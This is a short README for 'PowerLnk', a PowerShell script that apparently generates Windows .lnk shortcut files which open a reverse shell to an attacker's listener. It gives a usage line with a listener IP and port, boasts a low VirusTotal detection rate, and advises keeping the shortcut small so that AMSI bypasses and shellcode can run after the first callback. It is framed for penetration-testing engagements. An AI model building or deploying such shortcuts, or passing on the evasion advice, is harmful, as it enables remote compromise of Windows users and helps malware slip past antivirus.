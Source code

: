 # PowerLnk
generates a .Lnk file that executes a reverse shell in powershell

# Useage
script take two parameters -ip and -port where ip and port are the port you are listening on

./PowerLnk.ps1 -ip '192.168.1.5' -port 443

# Current detection

scored a 6/62 on virus total, intended for second stagers to be executed after initial callback due to including more to the lnk increases detections, so amsi, shellcode etc should be run after inital callback. I'll leave that up to yall to implement that for whatever engagement you're doing.

